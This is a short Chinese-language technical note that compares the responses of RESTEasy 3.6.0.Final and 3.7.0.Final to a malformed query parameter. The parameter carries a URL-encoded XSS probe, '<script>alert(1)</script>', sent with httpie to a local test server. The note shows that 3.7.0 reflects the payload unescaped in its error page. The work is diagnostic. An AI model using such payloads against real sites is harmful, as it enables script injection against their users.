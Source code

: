 访问正确的地址：

```bash
$ http "localhost:8080/rest/users?paging=1"
```

访问错误的地址：

```bash
$ http "http://localhost:8080/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
```

在`resteasy 3.6.0.Final`下的表现：

```bash
$ http "http://localhost:8080/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
HTTP/1.1 404 Not Found
Content-Length: 0
Date: Wed, 25 Mar 2020 12:25:43 GMT
Server: Jetty(9.4.24.v20191120)



$
```

在`resteasy 3.7.0.Final`下的表现：

```bash
$ http "http://localhost:8080/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
HTTP/1.1 404 Not Found
Content-Length: 234
Content-Type: text/html;charset=utf-8
Date: Wed, 25 Mar 2020 12:26:49 GMT
Server: Jetty(9.4.24.v20191120)

RESTEASY003870: Unable to extract parameter from http request: javax.ws.rs.QueryParam("paging") value is '0,-1sp137<script>alert(1)</script>mzx4u' for public java.lang.Integer io.weli.resteasy.xss.UsersResource.page(java.lang.Integer)

$
```

结论：`3.6.0.Final`和`3.7.0.Final`之间的某些变化导致了行为的不同。

